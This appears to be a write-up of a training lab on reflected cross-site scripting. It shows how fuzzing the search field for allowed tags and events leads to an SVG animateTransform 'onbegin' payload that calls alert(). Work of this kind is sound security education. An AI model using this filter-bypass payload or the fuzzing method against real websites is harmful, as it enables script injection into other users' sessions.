





# Lab: Reflected XSS with some SVG markup allowed

> Lab Objective: perform a cross-site scripting attack that calls the `alert()` function.

- Firstly, Enter simple input like this `test'"><` in search functionality, then search for the input in the Source Code.

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When viewing the source code, you'll see that `'"><` characters are displayed and interpreted as intentioned.
  

- Therefore, try injecting this payload `<script>alert(0)</script>`, but the script tag is not allowed.
  
  

- So, Use Burp Suite Intruder (or run a python script), when using intruder you'll see that there are 4 tags allowed.
  

- But when using one of the allowed tags like this `<image src=x onerror=alert()>`, You'll see that `onerror` event isn't allowed.
  

- Do the same thing you did with html tags, You'll configure that `onbegin` event is the only allowed event.

- Therefore I'll use it with `svg` and `animatetransform` tags (which are allowed).

- The Crafted Payload:

```html
<svg>
  <rect x="30" y="30" height="110" width="110">
    <animateTransform begin="0s" onbegin="alert(0)" />
  </rect>
</svg>
```

- The `alert(0)` is executed and the lab is solved successfully.
  
  

---

## Explanation:

- Code Snippet:

```html
<svg>
  <rect x="30" y="30" height="110" width="110">
    <animateTransform begin="0s" onbegin="alert(0)" />
  </rect>
</svg>
```

- Code Explanation:
  - `<svg>`: Defines an SVG graphic.
  - `<rect>`: Draws a rectangle at coordinates (30,30) with width/height of 110.
  - `<animateTransform>`: An SVG animation element, typically for transforming (e.g., rotating) the rectangle.
  - `begin="0s"`: Starts the animation immediately.
  - `onbegin="alert(0)"`: Triggers when the animation starts, executing the JavaScript alert(0), which displays a pop-up with "0".

---
